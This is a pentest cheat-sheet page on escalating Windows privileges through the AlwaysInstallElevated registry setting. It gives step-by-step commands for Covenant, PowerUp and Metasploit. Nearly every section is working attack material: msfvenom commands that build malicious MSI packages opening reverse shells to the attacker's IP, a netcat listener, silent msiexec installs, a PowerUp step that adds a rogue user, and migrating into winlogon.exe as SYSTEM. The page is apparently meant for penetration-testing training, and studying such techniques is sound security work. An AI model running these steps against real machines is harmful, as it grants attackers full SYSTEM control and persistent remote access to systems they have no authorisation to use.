 # AlwaysInstallElevated Exploitation

## Target requirements

- The target needs to have those values in the registry: 
  - In `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
  - In `Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
This means that installation packages are installed with elevated privileges 

### Enumerate with cmd

- Type `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` in a cmd prompt should be set to 1
- Type `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` should be one as well  
![image](https://user-images.githubusercontent.com/96747355/162576171-430c4e05-d1be-42c4-a840-d844a87cb99e.png)  

## Exploitation

- You should have a shell with covenant, metasploit or netcat or an access to the target.  
We will use Covenant and Metasploit here.

### Covenant

#### Enumerate with SharpUp audit

- In your shell type `SharpUp audit`
- In the results you should see this:
  ```
  === AlwaysInstallElevated Registry Keys ===

    HKLM:    1
    HKCU:    1
  ```

#### Enumerate with powerup

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- Type `powershell invoke-allchecks` in your shell
- We should see this
  ```
  [*] Checking for AlwaysInstallElevated registry key...
  AbuseFunction : Write-UserAddMSI

  ```

#### Exploitation

- generate a payload with msfvenom `msfvenom -p windows/exec CMD="" -f msi -o exploitalwaysinstalled.msi` between the quotes put copy and paste an encoded launcher.
- Upload your file in the target using Upload command from covenant (type `Upload` and enter, file the file path for the target and browse to the file in your attack machine)
- run it using `shell msiexec /quiet /qn /i exploitalwaysinstalled.msi
- We should get a prompt for another reverse shell in our grunts as an elevated user
  ```
  > whoami
  NT AUTHORITY\SYSTEM
  ```

#### Exploitation with powerup

- `powershell -ep bypass`
- `. .\PowerUp.ps1`
- `Write-UserAddMSI`
- It will set up a malicious MSI called `UserAdd`
- And we will be able to add a user  
![image](https://user-images.githubusercontent.com/96747355/162576431-66e49563-26cd-45fc-a673-63e9f0a42561.png)
- Our user has been added  
![image](https://user-images.githubusercontent.com/96747355/162576458-7498d8e5-bfc7-4dba-9b5c-9a73ac869622.png)  


### Metasploit

- Interact with a session you should already have from initial foothold `sessions -i num-of-session`

#### Enumerate

- Launch `run post/multi/recon/local_exploit_suggester`
- You should see: `- exploit/windows/local/always_install_elevated: The target is vulnerable.`

#### Exploitation

- Background your session with ctrl z
- Type `use exploit/windows/local/always_install_elevated`
- set session to the number of the session you have on your target 
- type `exploit -j`
- list the sessions you should have another one running as authority system
- type ps and look for a process under session 1 so that we can migrate to it 
- We can use winlogon.exe ` 620   520   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe`
- Migrate to it using `migrate PID-number` in our example it is going to be `migrate 520`  

**OR**  

- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost your-Kali-IP`
- `run`
- In another console tab `msfvenom -p windows/meterpreter/reverse_tcp lhost=Your-Kali-IP -f msi -o setup.msi`
- Get the generated msi in your target (python server -> browser from target)
- In your target Place `setup.msi` in a folder where you have write access
- Open command prompt and type: `msiexec /quiet /qn /i C:\Folder\you\chose\setup.msi`
- You should get an elevated shell in msfconsole  
![image](https://user-images.githubusercontent.com/96747355/162576948-dfc37754-0345-408f-a344-5248975f34b8.png)  

### Other way

- Generate a malicious MSI package `msfvenom -p windows/shell_reverse_tcp lhost=IP-OF-ATTACK-MACHINE lport=PORT -f msi > file.msi`
- Set up a listener `rlwrap nc -lnvp CHOSEN-PORT`
- Upload it to the target and execute it from the cmd `msiexec /i c:\users\user\desktop\file.msi /quiet /qn /norestart`
- You should get an elevated shell

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
